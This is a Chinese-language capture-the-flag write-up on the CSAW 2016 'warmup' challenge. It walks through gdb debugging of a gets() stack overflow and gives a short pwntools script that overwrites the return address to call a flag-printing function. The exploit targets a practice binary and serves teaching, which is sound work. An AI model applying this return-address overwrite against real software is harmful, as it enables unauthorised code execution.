







# 2.3 Csaw 2016 Quals Warmup
首先查看ELF开启了那些安全机制

```python
[*] '/home/lex/Project/nightmare/modules/05-bof_callfunction/csaw16_warmup/warmup'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
运行程序



程序输出一个地址，然后获取一个用户输入

我们使用IDA进行反编译得到的代码如下



从上面的代码中可以看出，程序输出了easy的地址，然后使用gets函数获取用户的输入赋值到v5变量，easy的具体定义如下：



easy函数返回了flag的内容

因为gets函数没有对输入的内容做长度限制，那么就可以造成缓冲区溢出，所以可以覆盖RIP的地址，把地址指向到easy函数的地址，就能成功返回flag

我们需要得到v5变量的地址到rip地址之间相差了多少个字节

使用gdb进行调试，首先下断点

```python
gdb-peda$ disassemble main 
Dump of assembler code for function main:
   0x000000000040061d <+0>: push   rbp
   0x000000000040061e <+1>: mov    rbp,rsp
   0x0000000000400621 <+4>: add    rsp,0xffffffffffffff80
   0x0000000000400625 <+8>: mov    edx,0xa
   0x000000000040062a <+13>:    mov    esi,0x400741
   0x000000000040062f <+18>:    mov    edi,0x1
   0x0000000000400634 <+23>:    call   0x4004c0 <write@plt>
   0x0000000000400639 <+28>:    mov    edx,0x4
   0x000000000040063e <+33>:    mov    esi,0x40074c
   0x0000000000400643 <+38>:    mov    edi,0x1
   0x0000000000400648 <+43>:    call   0x4004c0 <write@plt>
   0x000000000040064d <+48>:    lea    rax,[rbp-0x80]
   0x0000000000400651 <+52>:    mov    edx,0x40060d
   0x0000000000400656 <+57>:    mov    esi,0x400751
   0x000000000040065b <+62>:    mov    rdi,rax
   0x000000000040065e <+65>:    mov    eax,0x0
   0x0000000000400663 <+70>:    call   0x400510 <sprintf@plt>
   0x0000000000400668 <+75>:    lea    rax,[rbp-0x80]
   0x000000000040066c <+79>:    mov    edx,0x9
   0x0000000000400671 <+84>:    mov    rsi,rax
   0x0000000000400674 <+87>:    mov    edi,0x1
   0x0000000000400679 <+92>:    call   0x4004c0 <write@plt>
   0x000000000040067e <+97>:    mov    edx,0x1
   0x0000000000400683 <+102>:   mov    esi,0x400755
   0x0000000000400688 <+107>:   mov    edi,0x1
   0x000000000040068d <+112>:   call   0x4004c0 <write@plt>
   0x0000000000400692 <+117>:   lea    rax,[rbp-0x40]
   0x0000000000400696 <+121>:   mov    rdi,rax
   0x0000000000400699 <+124>:   mov    eax,0x0
   0x000000000040069e <+129>:   call   0x400500 <gets@plt>
   0x00000000004006a3 <+134>:   leave  
   0x00000000004006a4 <+135>:   ret    
End of assembler dump.
gdb-peda$ b *main+134
Breakpoint 1 at 0x4006a3
```
然后运行程序，输入内容

```python
gdb-peda$ r
Starting program: /home/lex/Project/nightmare/modules/05-bof_callfunction/csaw16_warmup/warmup 
-Warm Up-
WOW:0x40060d
>aaaaaaaaaa

[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdca0 ("aaaaaaaaaa")
RBX: 0x0 
RCX: 0x7ffff7dcfa00 --> 0xfbad2288 
RDX: 0x7ffff7dd18d0 --> 0x0 
RSI: 0x60226a --> 0xa ('\n')
RDI: 0x7fffffffdcaa --> 0x59a0000000000000 
RBP: 0x7fffffffdce0 --> 0x4006b0 (<__libc_csu_init>:    push   r15)
RSP: 0x7fffffffdc60 ("0x40060d\n")
RIP: 0x4006a3 (<main+134>:  leave)
R8 : 0x60226b --> 0x0 
R9 : 0x7ffff7b52390 (<__memcpy_ssse3+7232>: mov    rcx,QWORD PTR [rsi-0x9])
R10: 0x602010 --> 0x0 
R11: 0x7ffff7ba0ec0 --> 0xfffb14e0fffb1318 
R12: 0x400520 (<_start>:    xor    ebp,ebp)
R13: 0x7fffffffddc0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400696 <main+121>: mov    rdi,rax
   0x400699 <main+124>: mov    eax,0x0
   0x40069e <main+129>: call   0x400500 <gets@plt>
=> 0x4006a3 <main+134>: leave  
   0x4006a4 <main+135>: ret    
   0x4006a5:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4006af:    nop
   0x4006b0 <__libc_csu_init>:  push   r15
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc60 ("0x40060d\n")
0008| 0x7fffffffdc68 --> 0xa ('\n')
0016| 0x7fffffffdc70 --> 0x0 
0024| 0x7fffffffdc78 --> 0x0 
0032| 0x7fffffffdc80 --> 0x9 ('\t')
0040| 0x7fffffffdc88 --> 0x7ffff7dd7660 (<dl_main>: push   rbp)
0048| 0x7fffffffdc90 --> 0x7fffffffdcf8 --> 0x7fffffffddc8 --> 0x7fffffffe167 ("/home/lex/Project/nightmare/modules/05-bof_callfunction/csaw16_warmup/warmup")
0056| 0x7fffffffdc98 --> 0x1 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```
这里随意输入了几个aaaa，然后在内存中搜索aaaa，即可得到变量v5的地址

```python
gdb-peda$ searchmem aaaaa
Searching for 'aaaaa' in: None ranges
Found 4 results, display max 4 items:
 [heap] : 0x602260 ("aaaaaaaaaa\n")
 [heap] : 0x602265 --> 0xa6161616161 ('aaaaa\n')
[stack] : 0x7fffffffdca0 ("aaaaaaaaaa")
[stack] : 0x7fffffffdca5 --> 0x6161616161 ('aaaaa')
```
在栈中，可以得到v5的地址为 0x7fffffffdca0，接着我们继续看栈上其他寄存器的信息，使用info frame命令

```python
gdb-peda$ i f
Stack level 0, frame at 0x7fffffffdcf0:
 rip = 0x4006a3 in main; saved rip = 0x7ffff7a05b97
 called by frame at 0x7fffffffddb0
 Arglist at 0x7fffffffdce0, args: 
 Locals at 0x7fffffffdce0, Previous frame's sp is 0x7fffffffdcf0
 Saved registers:
  rbp at 0x7fffffffdce0, rip at 0x7fffffffdce8

```
可以看到rip的地址为 0x7fffffffdce8 ，所以v5到rip之间相差了 0x7fffffffdce8 - 0x7fffffffdca0 = 72字节

从上面程序的运行结果可以得到，easy函数的地址为 0x40060d



所以构造的payload如下：

```python
from pwn import *

payload = 'A' * 72 + p64(0x40060d)
payload += p64(0x12345678)  # fix eip 
target = process('./warmup')
target.sendline(payload)
target.interactive()
```



正常的栈结构



当我们覆盖了原来的EIP之后，原来的EIP在新函数 easy 中则属于 EBP了，因此还需要再添加一个新的EIP，随便指一个地址，把栈结构补充完整即可




参考文档


https://www.exploit-db.com/docs/28553.pdf